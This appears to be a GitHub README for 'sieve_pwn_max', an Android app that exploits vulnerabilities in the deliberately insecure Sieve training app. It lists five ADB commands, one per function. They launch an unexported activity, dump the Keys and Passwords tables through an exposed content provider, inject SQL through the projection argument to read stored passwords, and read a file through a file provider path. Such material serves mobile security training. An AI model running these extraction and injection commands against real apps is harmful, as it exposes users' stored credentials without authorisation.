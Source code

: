 # sieve_pwn_max
 - an app which exploits several vulnerabilities in [sieve.apk](https://github.com/VAnD4L/sieve_pwn_max/releases/download/untagged-a80161bbd8e025d1211b/sieve.apk)

## how to invoke each function via ADB : 

### [func1](https://github.com/VAnD4L/sieve_pwn_max/blob/b875982477a9c9d52a3b1dc6f2ad4c9bddd26454/app/src/main/java/com/citadel/sieve_pwn_max/MainActivity.java#L38C1-L43C6) 

```
adb shell am start -n com.mwr.example.sieve/com.mwr.example.sieve.PWList

```

### [func2](https://github.com/VAnD4L/sieve_pwn_max/blob/b875982477a9c9d52a3b1dc6f2ad4c9bddd26454/app/src/main/java/com/citadel/sieve_pwn_max/MainActivity.java#L44C1-L50C6) 

```
adb shell content query --uri content://com.mwr.example.sieve.DBContentProvider/Keys/
```

### [func3](https://github.com/VAnD4L/sieve_pwn_max/blob/b875982477a9c9d52a3b1dc6f2ad4c9bddd26454/app/src/main/java/com/citadel/sieve_pwn_max/MainActivity.java#L51C1-L57C6)

```
adb shell content query --uri content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

### [func4](https://github.com/VAnD4L/sieve_pwn_max/blob/b875982477a9c9d52a3b1dc6f2ad4c9bddd26454/app/src/main/java/com/citadel/sieve_pwn_max/MainActivity.java#L58C1-L65C6)

```
adb shell content query --uri content://com.mwr.example.sieve.DBContentProvider/Keys/ --projection '* FROM Passwords;'
```

### [func5](https://github.com/VAnD4L/sieve_pwn_max/blob/b875982477a9c9d52a3b1dc6f2ad4c9bddd26454/app/src/main/java/com/citadel/sieve_pwn_max/MainActivity.java#L66C1-L81C6)

```
adb shell cat /data/data/com.mwr.example.sieve.FileBackupProvider/files/etc/hosts
```

